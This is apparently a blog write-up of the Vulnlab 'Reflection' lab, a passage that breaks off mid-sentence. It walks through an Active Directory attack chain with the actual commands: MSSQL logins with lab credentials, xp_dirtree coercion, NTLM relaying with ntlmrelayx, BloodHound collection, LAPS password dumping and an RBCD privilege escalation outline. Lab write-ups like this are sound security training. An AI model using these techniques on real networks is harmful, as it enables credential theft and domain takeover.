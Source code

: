 ```yaml
---
title: Vulnlab - Reflection
date: 2022-08-04
categories: [Vulnlab]
tags: [Vulnlab, AD]
pin: false
---
```


## Vulnlab - Reflection
Reflection is another chain from Vulnlab which goes into MSSQL exploitation, relaying and Resource-based Constrained Delegation (RBCD) abuse.


## Targets
Upon starting the box I added the following information into my hosts file.
```
10.10.153.213 reflection.vl
10.10.153.213 dc01.reflection.vl
10.10.153.214 ms01.reflection.vl
10.10.153.215 ws01.reflection.vl
```

## Scan dc.reflection.vl
```
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-02 12:11:03Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
1433/tcp open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6039/tcp filtered x11
9389/tcp open     adws?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ms01.reflection.vl
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ws01.reflection.vl
```

```

## SMB enumeration - MS01
After some SMB enumeration I figured out that the MS01 machine has an accessible share called 'staging'.
![_install](/assets/img/VL-Reflection/smbclient.png)
When accessing the share we can see that it contains a file called "staging_db.conf" which when viewed
contains a set of credentials for a database called "staging":
![_install](/assets/img/VL-Reflection/smbclient2.png)

## MSSQL enumeration - MS01
Using netexec I tried the credentials that I found on the  share. This revealed that we can use it on the MSSQL database on MS01.
![_install](/assets/img/VL-Reflection/nxc_mssql.png)
Let access mssql service using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_staging':'Washroom510'@10.10.220.54
```
This results in us getting acccess on the MSSQL server on MS01 as the local user web_staging:
![_install](/assets/img/VL-Reflection/mssqlclient1.png)

## MSSQL UNC Path Injection Relay - MS01
I tried some basic privilege escalation techniques such as enabling xp_cmdshell which ultimatly resultated in nothing. 
One thing I noticed during enumeration is that the DC doesn't have SMB Signing enabled. I found this very odd and thought 
we might have to relay some kind of authentication request. An attack that I've done quite a few time on client assessments is 
using UNC Path Injection using the xp_dirtree stored procedure and relay the authentication to other machines in the domain.

First let's check if we can coerce authentication using xp_dirtree to our attacker machine:
![_install](/assets/img/VL-Reflection/xp_dirtree.png)
We see that we successfully receieve an incoming connection on our SMB server from the Domain User svc_web_staging.
I also tried to crack the hash, however this didn't do well. Lets setup ntlmrelayx from impacket to relay to authentication:
```bash
ntlmrelayx.py -tf ips.txt -socks -smb2support -debug
```
I used the -tf and -socks option to relay the authentication to all computers and create a socks5 proxy which I can use my tools through.
After triggering the coercion we can see that we have an active connection to DC and WS01 


## Active Directory Enumeration
Now that we have an active Socks5 SMB connection to the DC and WS01 we can perform some AD enumeration. First let's see if we 
can find something of interest on the SMB shares using smbclient.py from the impacket toolkit:
```bash
proxychains smbclient.py REFLECTION/SVC_WEB_STAGING:'fakepass'@10.10.153.213
```
We can check if there are any shares which we can access. In this case we can access the "prod" share which contains a file called"prod_db.conf".
We already had staging credentials to the MSSQL database, now lets try to validate if we have access to another MSSQL database using netexec:
```bash
nxc mssql ips.txt -u web_prod -p Tribesman201 --local-auth
```
Netexec tells us that the credentials are valid on the DC, let's login again using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_prod':'Tribesman201'@10.10.153.213
```
And once again we have access to the prod database. After some quick enumeration I found the users table which contain two sets of credentials:
![_install](/assets/img/VL-Reflection/initial_ad_creds.png)

I put the credentials into two seperate files called "users.txt" and "pass.txt" and checked if the credentials are valid using netexec:

Now that we have valid AD credentials we can enumerate the AD environment. Lets start by kicking of the BloodHound.py remote ingestor:
```bash
python3 bloodhound.py -d reflection.vl -v --zip -c All -dc reflection.vl -ns 10.10.153.213 -u dorothy.rose -p 'hC_fny3OK9glSJ'
```
After running the script we can load the zip file into BloodHound and perform some enumeration. I quickly noticed that the user 
"abbie.smith" has GenericAll right on the MS01 machine which allows us to add the ms-DSAllowedToActOnBehalfOfOtherIdentity 
attribute. This allows us to perform an RBCD attack on the Domain thus allowing us to elevate privileges. Sadly I quickly realized
that his was not possible since the MachineAccountQuota was set to 0.
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M MAQ
```
![_install](/assets/img/VL-Reflection/maq.png)

Upon enumerating the MS01 machine I noticted that it has LAPS enabled. 
![_install](/assets/img/VL-Reflection/LAPS.png)
Since we have GenericAll permissions on the computer this allows us the retrieve the Local Admininistrator Password of the MS01 
computer. Using netexec I was able to dump the LAPS password of the computer:
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M laps
```
![_install](/assets/img/VL-Reflection/laps_dump.png)



## Resource Based Constrained Delegation

Dumped the password of Gerogia.price which has genericall on WS01. We get get hash of WS01 and perform RBCD. First run secretsdump.py
and add RBCD using rbcd.py from impacket.

Then impersonate the administrator on the domain while request a silver ticket using getST.py from again impacket for the CIFS 
service.

NExt we import the kerberos ticket in memory and secretsdump the WS01 computer. This reveals the password of Rhys.Garner, however
we don't need his password since we already have Domain Admin access. Let's try to 
